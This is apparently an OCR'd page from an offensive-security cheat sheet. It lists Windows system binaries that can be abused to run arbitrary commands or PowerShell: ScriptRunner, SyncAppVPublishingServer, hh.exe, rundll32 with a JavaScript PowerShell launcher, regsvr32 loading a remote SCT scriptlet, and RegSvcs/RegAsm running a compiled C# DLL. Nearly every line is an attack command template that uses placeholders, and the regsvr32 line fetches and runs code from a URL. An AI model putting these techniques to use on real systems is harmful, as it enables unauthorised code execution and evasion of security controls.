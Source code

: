 <span id="anchor-329"></span>Run Commands with ScriptRunner.exe (Part of
Application Virtualization Client)

|                                                       |
| ----------------------------------------------------- |
| scriptrunner.exe -appvscript **\<command\_to\_run\>** |

<span id="anchor-330"></span>Run Commands with
SyncAppVPublishingServer.exe (Part of Application Virtualization Client)

|                                                               |
| ------------------------------------------------------------- |
| SyncAppVPublishingServer.exe “n; **\<PowerShell\_Commants\>** |

<span id="anchor-331"></span>Open an HTML or File Path with hh.exe

|                              |
| ---------------------------- |
| hh.exe **\<url\_or\_path\>** |

<span id="anchor-332"></span>Run PowerShell Via JavaScript with
RunDLL32.exe

|                                                                                       |
| ------------------------------------------------------------------------------------- |
| rundll32.exe javascript:"..\\mshtml,RunHTMLApplication "**\<PowerShell\_Commands\>**" |

<span id="anchor-333"></span>Run Remote SCT Scripts with RegSvr32.exe

|                                                          |
| -------------------------------------------------------- |
| regsvr32.exe /s /n /u /i:**\<url\_to\_sct\>** scrobj.dll |

<span id="anchor-334"></span>Run Commands with RegSvcs.exe & RegAsm.exe

Create a C\# project that utilizes the DLL Register & Unregister
Methods, similar to this example:
[*https://gist.github.com/xenoscr/2e5b1eec8ce1f7c1bbc2eed5a3bf3d07*](https://gist.github.com/xenoscr/2e5b1eec8ce1f7c1bbc2eed5a3bf3d07)

<table>
<tbody>
<tr class="odd">
<td><p>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:regsvcs.dll /keyfile:key.snk <strong>&lt;c#_project&gt;</strong></p>
<p>To use the register module:</p>
<p>regsvcs.exe regsvcs.dll</p>
<p>OR</p>
<p>Regasm.exe regsvcs.dll</p>
<p>To use unregister module:</p>
<p>Regsvcs.exe /U regsvcs.dll</p>
<p>OR</p>
<p>Regasm.exe /U regsvcs.dll</p></td>
</tr>
</tbody>
</table>
